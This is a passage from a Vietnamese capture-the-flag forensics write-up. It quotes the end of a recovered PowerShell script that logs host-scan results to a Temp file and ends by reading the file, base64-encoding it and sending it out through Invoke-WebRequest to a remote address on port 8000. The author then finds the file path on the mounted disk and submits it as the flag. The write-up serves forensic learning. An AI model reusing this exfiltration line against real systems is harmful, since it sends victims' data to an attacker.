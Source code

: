 ````
    } else {
        Write-Host "Host $currentIP is offline."
        "Host $currentIP is offline." | Out-File -Append -FilePath $outputFile
    }
}

Write-Host "Scan results saved to $outputFile"
$var = [System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes($outputFile))
Invoke-WebRequest -Uri "http://192.168.1.5:8000/$var" -Method GET

````
Ta thấy có 1 biến là $outputFile được trả về `UserProfile\AppData\Local\Temp\BL4356.txt`. Mình thử tìm thử file này trên ổ đã mount

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/8f893dc6-3516-41cf-ad9d-c8c1d76eef42)

Có vẻ ta đã xác định được đường dẫn của nó là `C:\Users\Administrator\AppData\Local\Temp`. Thử nhập vào ô điền flag

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/e97dafb9-6db9-4b64-8a6e-0775806a0757)

----
# End of challenge check

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/01bddd26-6adb-4985-8ba9-e26c6084152d)

**--End--**
